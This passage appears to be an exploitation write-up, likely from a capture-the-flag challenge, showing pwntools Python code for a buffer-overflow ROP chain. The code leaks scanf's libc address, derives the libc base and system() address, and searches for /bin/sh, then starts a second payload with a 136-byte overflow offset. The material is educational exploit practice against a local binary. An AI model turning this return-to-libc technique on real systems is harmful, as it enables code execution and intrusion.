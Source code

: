 ```python
	p64(back_to_main) # jump back to main, so that it won't crash after we leak the address
]

payload = b''.join(payload) # mix all those variables in the payload list and transforms everything in bytes
p.sendline(payload) # send payload

# to get the leaked address
p.recvline()
p.recvline()

# unpack it and save the leak address, strip the \n, and adjusts the string padded with 8 bytes 
# and suffix it with null bytes and turn it into hexadecimal
leak = u64(p.recvline().strip().ljust(8, b"\x00")) 

log.info(f"{hex(leak)=}") # get the leaked address

"""
Plan to calculate the offset (getting the difference between the leaked address and the system address)
between scanf (function we leaked) and system (function we want to call )

readelf -s ./libc.so.6 | grep scanf (print the address of scanf)
2062: 000000000007b0b0   197 FUNC    GLOBAL DEFAULT   13 scanf@@GLIBC_2.2.5
"""
scanf_offset = 0x7b0b0

# Now we take our leaked address and subtract 0x7b0b0, and then we find the actual loaded address of libc
base_address_of_libc = leak - scanf_offset

"""
calcule the address of function system

readelf -s //libc.so.6 | grep system
1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
"""
system_offset = 0x4f4e0
system_address = base_address_of_libc + system_offset # get the actual physical in memory address of system

"""
check if /bin/sh is in libc.so.6
strings libc.so.6 | grep /bin/sh
"""

p.interactive()

```

Our payload with 2 ROPchains that got us to EOF (End Of File)
```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln') # start the vulnerable program process
 
# we reached EOF (End Of File) with our payload
gdb.attach(p) # debug our ROPchain

offset = 136 # we discovered that with 'pattern offset $rsp'
junk = b"A" * offset # creating our payload that will overflow

```